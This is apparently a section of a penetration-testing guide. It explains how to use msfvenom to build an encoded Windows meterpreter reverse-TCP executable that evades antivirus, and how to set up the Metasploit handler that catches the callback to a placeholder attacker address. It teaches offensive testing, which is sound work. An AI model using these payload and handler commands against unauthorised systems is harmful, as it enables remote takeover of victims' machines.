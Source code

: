 # Payload Generation Tools and Techniques

A number of tools can be used for payload generation.  This section will cover a number of the most common payload generation tools and techniques that can be used to compromise a host on a penetration testing engagement.


## Metasploit Framework MSFVenom

MSFVenom is included as part of the metasploit framework install and can be used to generate payloads to compromise a target on a penetration test.  MSFVenom works in conjunction with the metasploit framework to establish a connection to the target host.

### Microsoft Windows Payloads

The following payload will create an obfuscated meterpreter executable (.exe) for an x86 32bit system:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<Attacker_IP_Address> LPORT=<Attacker_Port> -f exe -o <payload_name>.exe`

A breakdown of the command:

**-p** - Name of payload to be executed on the target machine.  In this case "meterpreter reverse tcp".

**-a** - Architecture of the payload.  In this case x86 specifies a 32bit build.

**--encoder** - This specifies which encoder to use to obfuscate the meterpreter payload.  In this case x88/shikata_ga_nai has been used.  Encoding is used in an effort to obfuscate the payload to bypass antivirus detections. The `-i` command can be supplied an integer, to increase the number of encoding iterations.

**-f** - This specifies the format of the payload.  In this case this tells MSFVenom to generate the payload as a windows executable (.exe) file.

**-o**  This is the output filename of the payload, along with the .exe file extension.

The payload would then have to be transferred and executed on the target machine. 

Before executing the payload on the target machine, a payload handler must be set up within the metasploit framework. This can be achieved using the following commands:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attacker_IP_Address>
set LPORT <attacker_PORT>

```
